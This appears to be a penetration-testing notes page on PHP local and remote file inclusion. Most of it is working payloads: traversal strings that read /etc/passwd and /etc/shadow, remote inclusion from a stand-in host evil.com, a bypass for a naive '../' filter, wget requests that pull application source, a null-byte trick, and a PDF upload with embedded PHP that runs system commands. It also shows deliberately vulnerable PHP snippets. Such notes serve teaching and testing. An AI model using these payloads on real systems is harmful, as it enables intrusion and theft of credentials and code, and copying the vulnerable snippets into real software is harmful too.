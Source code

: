 #### 2.1. About

- local and remote file inclusion
- payload examples: 
  - `https://site.com/?file=../../../../../../../etc/hosts`
  - `https://site.com/?file=http://evil.com?x.txt` (where `x.txt` contains malicious code)

Exercise: `https://pentesterlab.com/exercises/php_include_and_post_exploitation`

LFI payloads:
```
$target/a.php?page[]= (FPD - /var/www/fileincl/example1.php)
$target/a.php?page=../../../etc/shadow
$target/a.php?page=../../../etc/passwd
$target/a.php?page=/etc/passwd
$target/a.php?page=../index (appends `.php` by default)
$target/a.php?page=../index.php%00
$target/a.php?page=../../../etc/passwd%00
$target/a.php?page=../phpinfo (appends `.php` by default)
$target/a.php?page=../phpinfo.php%00
$target/a.php?page=../phpinfo.txt%00
```

RFI payloads:
```
$target/a.php?page=http://www.ibm.com/
$target/a.php?page=http://evil.com/phpinfo.txt
$target/a.php?page=http://www.ibm.com/index (appends `.php` by default)
$target/a.php?page=http://www.ibm.com%00
```

#### 2.2. Input sanitization bypass for local file inclusion

As part of the triage process every `../` in the application gets removed.
```python
>>> input = "../../../../../../etc/passwd"
>>> print(input.replace('../', ''));
etc/passwd
```

We can bypass the protection as:
```python
>>> input = "..././..././..././..././..././..././etc/passwd"
>>> print(input.replace('../', ''));
../../../../../../etc/passwd
>>> input = "....//....//etc/passwd"
>>> print(input.replace('../', ''));
../../etc/passwd
```
File path traversal was possible because we abused the function that is suppose to sanitize the user-input.

#### 2.3. PHP examples

##### Example 1

Code:
```php
$upload_dir = '/var/www/files/';
$file = $_GET['file'];
$path = $upload_dir . $file;
$handle = fopen($path, 'rb');
```

Requests:
```
# read system files
$ wget $target/a.php?file=../../../../../../../../../../../../etc/passwd -O passwd_r

# read source code of arbitrary file
$ wget $target/a.php?file=../../../../../../../../../../var/www/sqli/db.php' -O db.php -q
```

##### Example 2

Code:
```php
$file = $_GET['file'];
if (!(strstr($file,"/var/www/files/"))) die();
$handle = fopen($file, 'rb');
```

Request:
```
# file parameter value must start with '/var/www/files/'
$ wget $target/b.php?file=/var/www/files/../../../../../../../../../../var/www/sqli/db.php' -O db.php -q
```

##### Example 3

Code:
```php
$upload_dir = '/var/www/files/';
$file = $_GET['file'];
$path = $upload_dir . $file. ".png"; # will append extension
```

Request:
```
# append NULL byte to payload and bypass prepended file extension (PHP < 5.3.4)
$ wget $target/c.php?file=../../../../../../../../../../../../../../var/www/sqli/db.php%00' -O db.php -q
```

Test on PHP-7.3.14 (`https://www.php.net/manual/en/security.filesystem.nullbytes.php`):
```
php > $path="../../etc/passwd\0";
php > echo $path;
../../etc/passwdphp >
php > file_exists($path);

Warning: file_exists() expects parameter 1 to be a valid path, string given in php shell code on line 1

Call Stack:
  312.3228     388488   1. {main}() php shell code:0
  312.3228     388488   2. file_exists() php shell code:1
```

##### Example 4

Embedded PHP in PDF file.
```
POST /index.php HTTP/1.1
....
Content-Disposition: form-data; name="pdf"; filename="test.pdf"
Content-Type: application/pdf

%PDF-
<?php system("whoami;id;uname -a");
```

Loading PDF via `include()`; PHP code will execute as well.
```
GET /index.php?page=uploads/PDF.pdf%00 HTTP/1.1
```
